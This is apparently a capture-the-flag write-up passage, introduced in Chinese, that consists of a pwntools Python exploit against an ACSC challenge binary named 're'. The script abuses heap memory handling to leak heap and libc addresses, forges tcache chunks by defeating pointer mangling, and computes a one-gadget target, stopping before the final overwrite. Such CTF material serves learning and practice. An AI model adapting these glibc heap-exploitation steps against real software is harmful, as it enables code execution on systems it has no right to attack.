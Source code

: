 

以下為 exploit：

```python
#!/usr/bin/python3

from pwn import *
from sys import argv

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

if len(argv) > 1:
    r = remote('re.chal.ctf.acsc.asia', 9999)
else:
    r = process('./re', aslr=False)

def edit(idx, size, data):
    r.sendlineafter('> ', '1')
    r.sendlineafter('Index: ', str(idx))
    r.sendlineafter('Size: ', str(size))
    if len(data) != 0:
        r.sendafter('Memo: ', data)

def show():
    r.sendlineafter('> ', '2')

def mangle(ptr, addr):
    return p64(ptr ^ (addr >> 12))

edit(0, 0x78, 'A')
edit(0, 0x0, '')
edit(1, 0x78, 'A')
edit(0, 0x0, '')
show()
r.recvuntil('[1] ')
heap = u64(r.recv(5).ljust(8, b'\x00')) << 12
info(f"heap: {hex(heap)}")

for i in range(4):
    edit(1, 0x78, b'A' * 0x10)
    edit(0, 0x0, b'')

fake_chunk_list = flat(
    mangle(heap + 0x2c0, heap + 0x2a0), b'A' * 8,
    0, 0x78,
    mangle(heap + 0x6c0, heap + 0x2c0), b'B' * 8,
    0, 0x78,
)
edit(1, 0x78, fake_chunk_list)
edit(2, 0x78, b'A')
edit(3, 0x78, b'B') # victim
edit(4, 0x78, p64(0) * 3 + p64(0x21) + p64(0) * 3 + p64(0x21)) # fake chunk
edit(2, 0x78, b'\x00' * 0x18 + p64(0x421))
edit(5, 0x58, b'C')
edit(3, 0x0, b'')
edit(6, 0x58, b'D')
show()
r.recvuntil('[5] ')
libc = u64(r.recv(6).ljust(8, b'\x00')) - 0x219ce0
target = libc + 0x2702e0
oneshot = libc + 0xebcf1
info(f"libc: {hex(libc)}")

```
